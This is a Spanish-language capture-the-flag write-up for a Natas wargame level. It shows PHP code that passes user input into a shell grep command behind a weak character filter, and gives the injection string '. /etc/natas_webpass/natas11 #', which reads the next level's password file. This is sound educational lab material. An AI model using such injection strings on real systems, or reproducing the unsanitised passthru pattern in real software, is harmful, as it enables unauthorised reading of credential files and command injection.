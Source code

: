 Nos recibe una página igual al nivel anterior pero con el texto `For security reasons, we now filter on certain characters`. Analizando el código notamos que se filtran ciertos caracteres de nuestra entrada:
```php
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {  
    if(preg_match('/[;|&]/',$key)) {  
        print "Input contains an illegal character!";  
    } else {        passthru("grep -i $key dictionary.txt");  
    }  
}  
?>
```

Se filtran los caracteres  `;`,`|` y `&`. Analizando la solución del nivel anterior, notamos que no usamos estos caracteres, así que podemos reutilizarla modificando el número del nivel: 
```
. /etc/natas_webpass/natas11 #
```

Enviando esta cadena obtenemos la contraseña del nivel siguiente.


---
## **Conclusión**

Aunque se implementaron filtros para restringir ciertos caracteres, la solución del nivel anterior funcionó, lo que demuestra que un enfoque estructurado y flexible puede ser más efectivo que los métodos improvisados.

Esto es un recordatorio de que existen múltiples soluciones válidas que pueden aplicarse a un mismo problema, y que un análisis cuidadoso del contexto puede mostrarnos caminos alternativos igualmente efectivos. 

---
-,"  
[_P